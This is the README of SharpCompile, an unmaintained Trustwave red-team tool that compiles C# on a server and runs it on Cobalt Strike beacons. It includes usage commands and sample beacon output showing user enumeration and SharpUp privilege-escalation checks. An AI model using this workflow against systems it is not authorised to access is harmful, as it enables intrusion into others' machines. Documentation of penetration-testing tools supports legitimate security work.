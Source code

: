 :warning: *NOTE: This tool is no longer under active maintenance.*


# SharpCompile

SharpCompile is an aggressor script for Cobalt Strike which allows you to compile and execute C# in realtime. This is a more slick approach than manually compiling an .NET assembly and loading it into Cobalt Strike. The project aims to make it easier to move away from adhoc PowerShell execution instead creating a temporary assembly and executing using beacon's 'execute-assembly' in seconds.

## Usage

Run server component elevated on a Windows machine (Your builder box) to listen on 0.0.0.0. This web server is intended to only be visible to operator systems (running the Cobalt Strike client) so is unauthenticated. Firewall this off and take advantage of SSL by providing 'cert.cer' alongside the server binary.

```
SharpCompileServer.exe [Optional: Full CSC Path (Default: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe)] [Optional: Port (Default: 80 or 443 if 'cert.cer' present)]
```

Your Cobalt Strike client then tasks the server component to build an assembly when required. This simply requires 'curl' by default so should work out the box on OS X and Linux. You will likely need to tweak the .cna to make it work on Windows calling a 'curl.exe' etc.

Modify the config section at the top of 'SharpCompile.cna' and load into Cobalt Strike. This exposes SharpCompile in the following ways:

*sharp-exec alias:*

```
beacon> sharp-exec Console.WriteLine(String.Format("Username: {0}\nDomain: {1}",Environment.UserName, Environment.UserDomainName));
[*] Tasked beacon to run .NET program: sharpcompile_38692.exe
[+] host called home, sent: 109611 bytes
[+] received output:
Username: Administrator
Domain: EVILCORP
```

*sharp-fexec alias:*

```
beacon> sharp-fexec /root/Tools/SharpCompile/SampleScripts/HelloWorld.cs "Sharp Compile"
[*] Tasked beacon to run .NET program: sharpcompile_51705.exe "Sharp Compile"
[+] host called home, sent: 109129 bytes
[+] received output:
Hello Sharp Compile!
```

*SharpCompile beacon menu:*

Right hand click a beacon:

![SharpCompile Menu](sharpcompile_menu.png)

Select the .cs you want to compile and execute:

![SharpCompile Dialog](sharpcompile_dialog.png)

In the below example we compile [SharpUp](https://github.com/GhostPack/SharpUp) and run it with an 'audit' argument:

```
[*] Tasked beacon to run .NET program: sharpcompile_98542.exe audit
[+] host called home, sent: 133173 bytes
[+] received output:

=== SharpUp: Running Privilege Escalation Checks ===

[*] Already in high integrity, no need to privesc!

[*] Audit mode: running all checks anyway.


=== Modifiable Services ===

---snip---
```

Note: The version of .NET Framework csc.exe you specify for server component matters when compiling code that needs a specific version. This process does not give any feedback on compilation, so if code does not compile you will likely get an error in Cobalt Strike saying invalid assembly.

## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)
* **Arris Huijgen** - Twitter- [@_bitsadmin](https://twitter.com/_bitsadmin)

## License

SharpCompile

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [uhttpsharp](https://github.com/bonesoul/uhttpsharp) - C# web server package.
* Ryan Cobb [@cobbr_io](https://twitter.com/cobbr_io) - Chatted about this concept.
* [SharpCradle](https://github.com/anthemtotheego/SharpCradle) - This is an awesome project worth checking out, slightly different concept for a slightly different use case, non-Cobalt Strike specific.



